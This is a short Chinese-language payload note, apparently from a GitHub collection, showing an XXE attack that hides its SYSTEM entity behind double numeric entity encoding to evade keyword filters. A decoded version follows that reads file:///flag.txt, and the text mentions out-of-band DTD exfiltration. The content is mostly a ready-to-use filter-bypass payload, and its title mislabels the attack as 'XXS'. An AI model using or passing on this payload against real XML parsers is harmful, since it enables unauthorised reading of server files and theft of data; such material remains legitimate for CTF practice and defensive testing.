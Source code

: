 # XXS绕过Payload

添加一组xxe绕过的payload

当只过滤了SYSTEM，PUBLIC等关键字时，可用双重实体编码绕过

```
<?xml version="1.0"?>

<!DOCTYPE GVI [

    <!ENTITY % xml "&#60;&#33;&#69;&#78;&#84;&#73;&#84;&#89;&#32;&#120;&#120;&#101;&#32;&#83;&#89;&#83;&#84;&#69;&#77;&#32;&#34;&#102;&#105;&#108;&#101;&#58;&#47;&#47;&#47;&#102;&#108;&#97;&#103;&#46;&#116;&#120;&#116;&#34;&#32;&#62;&#93;&#62;&#10;&#60;&#99;&#111;&#114;&#101;&#62;&#10;&#32;&#32;&#32;&#32;&#32;&#32;&#60;&#109;&#101;&#115;&#115;&#97;&#103;&#101;&#62;&#38;&#120;&#120;&#101;&#59;&#60;&#47;&#109;&#101;&#115;&#115;&#97;&#103;&#101;&#62;&#10;&#60;&#47;&#99;&#111;&#114;&#101;&#62;">

    %xml;
```

即为在xml实体中再定义一次xml，可成功被解析，支持dtd数据外带

```
<!ENTITY xxe SYSTEM "file:///flag.txt" >]>
<core>
      <message>&xxe;</message>
</core>
```

以上为编码部分内容

